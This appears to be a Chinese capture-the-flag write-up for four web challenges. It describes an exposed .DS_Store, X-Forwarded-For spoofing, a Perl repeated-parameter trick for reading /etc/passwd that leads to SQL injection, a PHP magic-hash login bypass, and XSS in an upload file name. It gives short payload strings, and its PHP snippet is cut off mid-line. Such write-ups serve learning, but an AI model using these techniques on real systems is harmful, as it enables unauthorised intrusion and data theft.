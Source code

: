 # CountingStars 100

下载'/.DS_Store'恢复源代码，计算$$$$$$...$$$S的值是'd0llars'，提交后得到302跳转，里面的body部分就是flag

# Invisible 100

没什么好说的，加'X-Forwarded-For: 127.0.0.1'

# WeirdCamel 400

蛋疼perl的奇怪特性，http请求重复提交某一字段后会有奇怪效果....    
不附带参数直接post的话，perl代码接受到的变量的值大致好像是（这里用json表示）
```js
{
'name': 'PHONE',
'phone': '',
'email': ''
}
```
提交`name=1`有：
```js
{
'name': '1',
'phone': 'EMAIL',
'email': ''
}
```
提交`name=1&name=2`有：
```js
{
'name': '1',
'phone': '',
'email': ''
}
```
提交`name=1&name=2&name=3`有：
```js
{
'name': '1',
'phone': 'EMAIL',
'email': ''
}
```

从上面的效应大概可以知道，perl大概直接把hash结构存为一个数组，不提交参数时就是
```js
['NAME','PHONE','EMAIL']
```
解释成`{'NAME':'PHONE', 'EMAIL': ''}`，然后提交`name=1`的时候就变成：
```js
['NAME','1','PHONE','EMAIL']
```
解释成`{'NAME':'1','PHONE':'EMAIL'}`,然后提交`name=1&name=2`的时候就变成：
```js
['NAME','1','2','PHONE','EMAIL']
```
解释成`{'NAME':'1','2':'PHONE','EMAIL':''}`等等....

那么我们脑洞一下后就可以知道要改STATEMENT的值，那就提交`name=1&name=STATEMENT&name=/etc/passwd`就可以读取'/etc/passwd'啦     
读register.pl后可以发现里面有个注释了的`#print <a href='什么什么news.pl?id=1'>`，然后就是sql注入     

在perl里面转义函数quote()在形如"id=1'&id=2"的时候直接返回"1'"....也就是直接无障碍裸的sql注入....    

payload:
![perl.png](perl.png)


# BOSS 500

`http://question12.erangelab.com/login.php~`可以看代码，为什么这么执着于备份文件.....

```php
<?php
$username = $_POST['username'];
$password_md5 = $_POST['password'];
// check username and password
if($username=="editor" && $password_md5=="0e
{
// login success
// somecode...
}else{
// login fail
    echo 'ERROR:USERNAME OR PASSWORD WRONG!';
}
```

直接`username=editor&password=0`登录，然后要上传一个文件     
试了下发现`Content-Type:application/msword`，然后上传文件名中'/'前的字符全被扔掉，    
然后估计是在文件名里面XSS管理员，那么注意一下把'/'用'&#47;'代替一下就好，当然也可以用其他办法，    

XSS返回：
'''
...
  'HTTP_CONNECTION' => 'keep-alive',
  'HTTP_CACHE_CONTROL' => 'max-age=0',
  'HTTP_USER_AGENT' => 'Mozilla/5.0 (Windows NT 6.1) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/51.0.2704.106 Safari/537.36',
  'HTTP_ACCEPT' => 'image/webp,image/*,*/*;q=0.8',
  'HTTP_REFERER' => 'http://question12.erangelab.com/xnuca_checklist.php',
  'HTTP_ACCEPT_ENCODING' => 'gzip, deflate, sdch',
  'HTTP_ACCEPT_LANGUAGE' => 'zh-CN,zh;q=0.8',
  'PHP_SELF' => '/rec.php',
  'REQUEST_TIME_FLOAT' => 1469968445.9431269,
  'REQUEST_TIME' => 1469968445,
)array (
  'str' => 'send_role=xt=urn:btih:1207054EE7FBB53FF0708BDE6A7934B7E5095CC9',
)array (
)
'''

下载cookie的磁力链接即可看到flag。